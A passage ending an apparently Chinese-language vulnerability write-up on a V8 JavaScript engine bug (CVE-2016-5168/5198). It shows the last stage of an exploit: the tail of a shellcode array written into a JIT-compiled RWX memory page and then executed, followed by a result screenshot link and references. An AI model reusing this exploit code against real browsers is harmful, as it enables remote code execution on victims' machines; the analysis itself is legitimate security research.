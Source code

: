 ```javascript
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(jit_rwx, shellcode);

// trigger jit function to run shellcode
jit();
```



运行效果图：

![image-20200819095554739](..\image\2020-08-18-CVE-2016-5168漏洞分析\1.png)



## 参考链接

https://gtoad.github.io/2019/07/26/V8-CVE-2016-5198/

https://bugs.chromium.org/p/chromium/issues/detail?id=659475

